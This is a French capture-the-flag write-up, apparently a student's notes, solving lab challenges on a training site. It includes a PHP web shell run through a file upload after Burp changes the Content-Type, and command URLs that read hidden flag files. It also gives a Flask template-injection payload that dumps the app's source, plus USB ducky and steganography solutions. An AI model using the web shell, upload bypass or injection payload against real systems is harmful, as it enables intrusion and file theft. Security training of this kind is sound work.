

# Secu
## 1 . Upload_medium

### A. 
Il faut tout d'abord créer un fichier en `.php` comme par exemple, `payload.php`.
Ce dossier devra contenir les lignes suivantes :
```
<?php
echo shell_exec($_GET['cmd']);
?>*
```
Ensuite, avant de l'upload, nous utiliserons une extension de navigateur comme par exemple Foxy proxy et le logiciel Burp afin de pouvoir changer le fichier envoyé.
Grace a burp, nous devons modifier la ligne :
`Content-Type: application/octet-stream`
par :
`Content-Type: image/png`
Il faut ensuite appuyer sur forward dans Burp.
et enfin désactiver notre proxy.

### B.
On arrive sur la partie délicate, il faut ouvrir le fichier étant apparu sur la page.
Grace au php, nous avons accès au cmd depuis le lien du site, il suffit de le modifier un peu:
`http://ctf-labo.cyber-stuff.net/upload_medium/uploads/test.php?cmd=`

donc il suffit de mettre:
`ls` qui permet de lire le dossier
`%20` qui place des espaces
`-la` qui permet de voir les fichiers cachés
`../` qui permet de revenir en arrière

dans un vrai cmd, la commande nous donnerais:
`ls -la ../../`
et parmis les fichiers, nous voyeons un dossier qui s'appelle `.flag`

ensuite, nous remplaçons `ls -la` (ls%20-la) par `cat%20` et on rajoute a la fin le nom du fichier, se qui nous ouvre le fichier avec le flag a l'intérieur

`http://ctf-labo.cyber-stuff.net/upload_medium/uploads/test.php?cmd=cat%20../../.flag`


## 2 . The DSI's yellow usb key

Le rubber ducky hack, est donc un fichier intégré a une clef USB qui tape des commandes a notre place, ce qui permet de rapidement pirater une session laissée ouverte.

Donc une fois le fichier donné téléchargé, il faut d'abord le décomprésser (comme Winrar ou 7-zip)

et vous optenez un fichier `.dd`

Sous mac, il suffit d'entrer la commande 
`hdiutil attach -imagekey diskimage-class=CRawDiskImage dump.dd`
se qui nous donne un fichier `inject.bin`
et ensuite, nous utilisons un site afin de décoder le fichier inject.bin : 
`https://ducktoolkit.com/decoder/`

le decodage nous donne l'adresse d'un fichier exe qui est en faite un .txt contenant le flag


## 3 . I Lowe runnig

Cette fois si, c'est plutôt simple, il suffit de télécharger l'image et de l'upload sur ce site : 
`https://incoherency.co.uk/image-steganography/#unhide`
L'image contenait un texte caché étant donc le flag.

## 4 . Find Patrick's password
ALEX LE BOSS


## 5 . Disrupt me

On écrit nimporte quoi après le lien, exemple :   `http://ctf-labo.cyber-stuff.net/disrupt-me/hydtjtcj` 

Cela va afficher le message :   `Sorry, flask is not ready to be disrupted !`

Ce message indique que le site utilise du flask

Donc sur internet on a trouvé un petit tuto

`https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections`



et donc il faut suivre ça si selon ça marche ou non(avec 2/3 modifs), se qui nous a donné :

`http://ctf-labo.cyber-stuff.net/disrupt-me/disrupt?pass=%7B%7B%20%27%27.__class__.__mro__[2].__subclasses__()[40](%27app.py%27).read()%20%7D%7D`

Dans cette commande on demande a lire un fichier se qui nous donne 
`background image*/ background-repeat:no-repeat;/*we want to have one single image not a repeated one*/ background-size:cover;/*this sets the image to fullscreen covering the whole screen*/ } h1 {color:yellow} .container { height: 100%; display: flex; justify-content: center;align-items: center;} </style> </head> <body>''' footer = '''</body></html>''' @app.route('/') def start(): template = ''' <div id="toDisrupt" class="container" > <div> <h1>Enter the secret word that only true disruptor know !</h1> <form class='form-inline' method="GET" action="/disrupt-me/disrupt"> <div class="row"> <div class="col-md-6"> <input class="form-control" type="text" name="pass"/> </div> <div class="col-md-6"> <button type="submit" class="btn btn-primary btn-block">Disrupt !</button> </div> </div> </form> </div> </div> </div>''' return render_template_string(headerBase+template+footer) @app.route('/disrupt') def hello_ssti(): if request.args.get('pass'): inp = request.args.get('pass') if inp == "Y-flag{T3mpl4te-INj3C7i0n-4r3-34sY-WH3n-1nPu7-4ren't-5aN17iZ3d-PropeRlY!}": template = ''' <div class="container" id="disrupte"> <div> <h1><b>Yeah ! You are a true disruptor ! The flag is the secret word.</b></h1> </div> </div>''' return render_template_string(headerDisrupt+template+footer) else: template = ''' <div class="container" id="disrupte"> <div> <h1><b>%s is not the correct disruptive word ! </b></h1> </div> </div>''' % inp return render_template_string(headerDisrupt+template+footer, inp=inp) else: template = ''' <div class="container" id="disrupt"> <div> <h1><b>_blank_ is not the correct disruptive word ! </b></h1> </div> </div>''' return render_template_string(headerDisrupt+template+footer) @app.errorhandler(404) def notFound(e): template='<div class"container"><div><center><h2>Sorry, flask is not ready to be disrupted !</h2></center></div></div>' return render_template_string(headerBase+template+footer) @app.errorhandler(500) def notFound_(e): template='<div class"container"><div><center><h2>Sorry, flask is not ready to be disrupted !</h2></center></div></div>' return render_template_string(headerBase+template+footer) if __name__ == "__main__": app.run(host='0.0.0.0',debug=False) is not the correct disruptive word !`

et caché au milieu de tout cela nous trouvons : `T3mpl4te-INj3C7i0n-4r3-34sY-WH3n-1nPu7-4ren't-5aN17iZ3d-PropeRlY!` étant le flag